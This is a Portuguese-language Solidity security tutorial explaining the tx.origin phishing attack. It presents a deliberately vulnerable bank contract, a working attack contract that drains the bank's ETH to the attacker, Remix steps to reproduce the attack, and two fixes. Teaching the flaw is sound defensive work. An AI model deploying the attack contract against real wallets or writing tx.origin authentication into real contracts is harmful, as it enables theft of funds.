 # WTF Solidity: S12. Ataque de Phishing tx.origin

Recentemente, tenho revisado meus conhecimentos em Solidity para consolidar os detalhes e também para escrever um "WTF Solidity Simplificado" para iniciantes (os programadores experientes podem procurar outros tutoriais). Estarei postando de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais são de código aberto no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

---

Nesta lição, vamos discutir o ataque de phishing tx.origin em contratos inteligentes e métodos para prevenir esse tipo de ataque.

## Ataque de Phishing com tx.origin

Quando eu estava no ensino fundamental, gostava muito de jogar videogame, mas os desenvolvedores, para evitar o vício de menores de idade, implementaram uma política em que apenas jogadores com mais de dezoito anos, verificados por meio de um número de identidade, poderiam jogar sem restrições. Como contornar essa política? Eu usei o número de identidade dos meus pais para verificar minha idade e consegui burlar o sistema. Esse caso se assemelha ao ataque de phishing com tx.origin.

No Solidity, o uso de `tx.origin` permite obter o endereço que iniciou a transação e é semelhante ao `msg.sender`. A diferença é que, se o usuário A chamar o contrato B, que por sua vez chama o contrato C, o `msg.sender` em C será o contrato B e o `tx.origin` será o usuário A. Para entender mais sobre o mecanismo de `call`, você pode ler a [S22. Chamada de Função](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md).

Dessa forma, se um contrato bancário usa `tx.origin` para autenticar a identidade, um hacker poderá implantar um contrato malicioso e induzir o proprietário do contrato a chamá-lo. Mesmo que o `msg.sender` seja o endereço do contrato malicioso, o `tx.origin` será o endereço do proprietário do contrato bancário, o que permitirá a realização de transferências.

## Exemplo de Contrato Vulnerável

### Contrato Bancário

Vamos analisar um contrato bancário simples, com uma variável de estado `owner` para registrar o proprietário do contrato. Ele possui um construtor e uma função pública:

- Construtor: atribui o valor de `msg.sender` à variável `owner` durante a criação do contrato.
- `transfer()`: esta função recebe os parâmetros `_to` e `_amount` e verifica se `tx.origin == owner` antes de transferir a quantidade `_amount` de ETH para o endereço `_to`. **Observação: essa função é vulnerável a ataques de phishing!**

```solidity
contract Bank {
    address public owner; // Armazena o proprietário do contrato

    // Atribui o valor de msg.sender à variável owner
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // Verifica a origem da mensagem !!! Existe um risco de phishing
        require(tx.origin == owner, "Not owner");
        // Transfere ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Contrato Malicioso

Agora, vamos ver o contrato malicioso. Ele possui uma função `attack()` simples, que é usada para realizar o ataque de phishing, transferindo todo o saldo do contrato bancário para o endereço do hacker. O contrato possui duas variáveis de estado: `hacker` e `bank`, que armazenam o endereço do hacker e do contrato bancário a ser atacado, respectivamente.

Ele contém duas funções:

- Construtor: inicializa o endereço do contrato bancário.
- `attack()`: essa função é usada para induzir o proprietário do contrato bancário a chamar o contrato malicioso, que por sua vez chama a função `transfer()` do contrato bancário, verificando se `tx.origin == owner` e transferindo todo o saldo para o endereço do hacker.

```solidity
contract Attack {
    address payable public hacker;
    Bank bank;

    constructor(Bank _bank) {
        bank = Bank(_bank);
        hacker = payable(msg.sender);
    }

    function attack() public {
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## Reproduzindo no `Remix`

**1.** Defina o `value` como 10 ETH, implante o contrato `Bank` e o endereço do proprietário `owner` será definido como o endereço do contrato implantado.

**2.** Mude para outra carteira, que será usada como a carteira do hacker, informe o endereço do contrato bancário a ser atacado e implante o contrato `Attack`, onde o endereço do hacker será definido como o endereço do contrato implantado.

**3.** Volte para o endereço `owner` e chame a função `attack()` do contrato `Attack`, induzindo a transferência de todo o saldo do contrato `Bank` para o endereço do hacker.

## Métodos de Prevenção

Atualmente, existem duas maneiras de prevenir o ataque de phishing com `tx.origin`:

### 1. Usar `msg.sender` em vez de `tx.origin`

`msg.sender` obtém o endereço do remetente direto da chamada atual ao contrato. Verificando o valor de `msg.sender`, você pode evitar chamadas maliciosas de contratos externos.

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2. Verificar `tx.origin == msg.sender`

Se você precisa usar `tx.origin`, verifique se `tx.origin` é igual a `msg.sender` para evitar chamadas maliciosas de contratos externos. Porém, essa abordagem rejeitará qualquer chamada de função feita por outros contratos.

```solidity
function transfer(address payable _to, uint _amount) public {
    require(tx.origin == owner, "Not owner");
    require(tx.origin == msg.sender, "can't call by external contract");
    (bool sent, ) = _to.call{value: _amount}("");
    require(sent, "Failed to send Ether");
}
```

## Conclusão

Nesta lição, abordamos o ataque de phishing com `tx.origin` em contratos inteligentes e métodos para prevenir esse tipo de ataque: usando `msg.sender` em vez de `tx.origin` ou verificando se `tx.origin == msg.sender`. A primeira abordagem é a mais recomendada, pois a segunda rejeitará chamadas de função feitas por outros contratos.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->